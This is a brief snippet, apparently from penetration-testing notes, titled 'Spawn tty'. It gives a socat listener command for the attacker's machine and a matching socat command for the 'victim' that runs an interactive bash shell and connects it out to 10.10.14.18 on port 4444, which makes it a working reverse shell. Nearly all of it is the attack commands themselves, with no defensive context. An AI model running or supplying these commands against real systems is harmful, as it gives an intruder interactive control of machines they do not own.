 Spawn tty

listener on your machine:
socat file:\`tty\`,raw,echo=0 tcp-listen:4444 

connect from victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 

